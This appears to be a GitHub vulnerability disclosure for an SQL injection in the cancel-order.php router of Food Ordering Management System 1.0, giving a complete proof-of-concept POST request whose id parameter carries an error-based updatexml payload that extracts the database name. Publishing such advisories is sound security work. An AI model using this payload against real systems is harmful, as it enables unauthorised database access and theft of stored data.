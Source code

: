 ## Food Ordering Management System has a front-end SQL injection vulnerability

## Affected version: 
Food Ordering Management System - 1.0

## Software:
https://www.sourcecodester.com/php/15689/food-ordering-management-system-php-and-mysql-free-source-code.html

## Vulnerability File:
/foms/routers/cancel-order.php

## Author
Ma Qiutong, Li Shudong, Lin Zihao

## Description:
Food Ordering Management System 1.0 is vulnerable to an unrestricted SQL injection attack in /foms/routers/cancel-order.php with the attack parameter id. An attacker can exploit this vulnerability to directly obtain sensitive server information. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

Status: CRITICAL

POC
```
POST /foms/routers/cancel-order.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 76
Origin: http://localhost
Connection: close
Referer: http://localhost/foms/admin-page.php
Cookie: PHPSESSID=cims89c5nt143re39d3ce6cdvd
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

status=1233213&id=123%20and%20updatexml(1,concat(0x7e,(database())),3)--%20q
```

Get database name 

![CleanShot 2024-09-05 at 14 38 03@2x](https://github.com/user-attachments/assets/7e87c3de-ebab-495b-9c17-d7898804fca5)




